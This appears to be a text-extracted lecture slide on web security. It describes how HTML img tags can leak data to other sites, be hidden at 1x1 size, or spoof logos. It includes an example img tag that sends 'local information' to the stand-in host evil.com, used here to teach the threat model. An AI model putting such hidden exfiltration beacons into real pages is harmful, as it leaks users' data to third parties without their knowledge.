

Security consequences
# Image tag security issues
Communicate with other sites
<img src=“http://evil.com/pass-local-information.jpg?extra_information”>
Hide resulting image
<img src=“ … ” height=“1" width=“1">
Spoof other sites
Add logos that fool a user

Important Point: A web page can send information to any site
Q: what threat model are we talking about here?
Basic Web Security Model

29